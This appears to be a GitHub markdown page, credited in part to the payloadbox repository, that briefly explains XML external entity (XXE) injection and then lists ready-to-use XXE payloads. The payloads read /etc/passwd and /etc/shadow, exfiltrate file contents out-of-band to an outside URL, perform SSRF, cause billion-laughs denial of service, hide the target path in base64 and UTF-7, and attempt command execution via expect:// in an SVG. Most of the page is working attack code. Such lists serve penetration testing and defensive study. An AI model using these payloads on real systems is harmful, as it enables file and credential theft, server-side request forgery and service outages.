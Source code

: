 **Credit** : [muhammad-qasiim](https://www.linkedin.com/in/muhammad-qasiim?miniProfileUrn=urn%3Ali%3Afsd_profile%3AACoAAEVA94wBXb4RT7qhcp8nm3cHl0RpsUkonfk&lipi=urn%3Ali%3Apage%3Ad_flagship3_feed%3BCzKWvWaUTGqvWuMi2Np4%2Bw%3D%3D) <br>
**Credit** : https://github.com/payloadbox/xxe-injection-payload-list/blob/master/README.md


#### What is XML external entity injection?

XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any backend or external systems that the application itself can access.

In some situations, an attacker can escalate an XXE attack to compromise the underlying server or other backend infrastructure, by leveraging the XXE vulnerability to perform server-side request forgery (SSRF) attacks. 

<p align="center"> 
<img src="/Image/xxe-injection.jpg">
</p>

There are various types of XXE attacks: 

|XXE Attack Type               |Description                          |
|----------------|-------------------------------|
|Exploiting XXE to Retrieve Files| Where an external entity is defined containing the contents of a file, and returned in the application's response. |
|Exploiting XXE to Perform SSRF Attacks| Where an external entity is defined based on a URL to a back-end system. |
|Exploiting Blind XXE Exfiltrate Data Out-of-Band| Where sensitive data is transmitted from the application server to a system that the attacker controls. |
|Exploiting blind XXE to Retrieve Data Via Error Messages | Where the attacker can trigger a parsing error message containing sensitive data. |

###### XXE - External Entity Interaction
```xml

<?xml version="1.0"?>
<soapenv:Envelope xmlns:soapenv="https://schemas.xmlsoap.org/soap/envelope">
    <soapenv:Header/>
    <soapenv:Body>
        <changeUserPassword>
            <username>user123</username> <!-- Example username -->
            <curpwd>abcdef</curpwd>
            <newpwd>abcdef</newpwd>
        </changeUserPassword>
    </soapenv:Body>
</soapenv:Envelope>

```
```xml
<!--?xml version="1.0" ?-->
<userInfo>
 <firstName>John</firstName>
 <lastName>Doe</lastName>
</userInfo>
```

###### XXE: Entity Example

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

###### XXE: File Disclosure

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>
```

###### XXE: Denial-of-Service Example

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE lolz [<!ENTITY lol "lol"><!ELEMENT lolz (#PCDATA)>
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<tag>&lol9;</tag>
 ```
 
###### XXE: Local File Inclusion Example
 
 ```xml
 <?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
 ```
 
###### XXE: Blind Local File Inclusion Example (When first case doesn't return anything.)
 
 ```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">]><foo>&blind;</foo>
 ```
 
###### XXE: Access Control Bypass (Loading Restricted Resources - PHP example)

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php">]>
<foo><result>&ac;</result></foo>
```

###### XXE:SSRF ( Server Side Request Forgery ) Example

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://www.example.com/text.txt">]><foo>&xxe;</foo>
```

###### XXE: (Remote Attack - Through External Xml Inclusion) Exmaple

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY test SYSTEM "https://example.com/entity1.xml">]>
<lolz><lol>3..2..1...&test<lol></lolz>
```

###### XXE: UTF-7 Exmaple

```xml
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hack-r.be:1337+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
```

###### XXE: Base64 Encoded

```xml
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

###### XXE: XXE inside SOAP Example

```xml
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
```

###### XXE: XXE inside SVG

```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```

